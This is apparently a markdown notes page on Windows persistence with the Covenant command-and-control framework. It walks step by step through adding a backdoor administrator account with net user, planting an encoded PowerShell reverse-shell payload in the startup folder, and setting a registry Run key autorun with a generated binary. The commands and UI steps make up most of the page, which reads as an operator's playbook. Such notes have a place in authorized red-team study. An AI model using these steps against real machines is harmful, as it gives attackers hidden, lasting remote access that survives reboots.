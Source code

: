 #### [+] 

> You may not always get a machine that has SessionID=1 processes.

> Keep in mind that perhaps you need to generate a new user, grant him administrator back access in the local machine. 

> And then you might need to log with that user to get SessionId=1



## Persistence

### New User Persistence
in Covenant:
```bash
if u have local admin access (high integrity) 
shellcmd net users <newuser> <password> /add
shell net users = to see if our user was created
shell net localgroup administrators <newuser> /add
```

### StartUp Persistence
In Covenant:
```bash
# we will need a local admin (high integrity) access too
Launcher > powershell > revshell > copy the encoded payload
Grunts > click in the session > Task > PersistStartup > paste de payload > name and click Task
```

> This will send the malicious file to the startup directory in the Windows targert machine
it will give us shell back, even after restart


To clean:
```
Just delete the file from startup directory
```

### Autorun Persistence
In Covenant:
```bash
# we will net a local admin (high integrity) access
Launcher > binary > Net40 > generate & Download > save the file
Grunts > click in the high session > Task > PersistAutorun > copy the value path > 
open a new tab > click in the shell of the high session > upload > paste the value path > select the file
now go back to the first tab and click Task to finish
```

> if u want to see the process in the target machine: 
go to register > HKCU\Software\Microsoft\windows\CurrentVersion\Run

OR

in covenant shell:
```
	GetRegistryKey HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# this will show the register in the machine
```
